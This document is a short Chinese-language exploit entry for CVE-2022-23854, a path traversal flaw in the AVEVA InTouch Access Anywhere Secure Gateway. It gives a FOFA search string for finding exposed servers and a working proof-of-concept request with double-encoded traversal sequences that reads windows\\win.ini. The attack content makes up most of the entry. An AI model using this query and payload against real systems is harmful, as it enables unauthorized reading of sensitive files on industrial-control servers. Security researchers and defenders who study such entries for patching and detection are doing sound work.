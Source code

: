 # AVEVA InTouch安全网关 AccessAnywhere 任意文件读取漏洞 CVE-2022-23854

## 漏洞描述

AVEVA InTouch Access Anywhere Secure Gateway 2020 R2及以前的版本存在路径遍历漏洞，未授权的攻击者可利用该漏洞获取服务器敏感信息。

## 漏洞影响

```
AVEVA InTouch安全网关
```

## FOFA

```
body="InTouch Access Anywhere"
```

## 漏洞复现

登录页面

![image-20221017170909794](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171709863.png)

验证POC

```
/AccessAnywhere/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255cwindows%255cwin.ini 
```

![image-20221017170935596](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210171709651.png)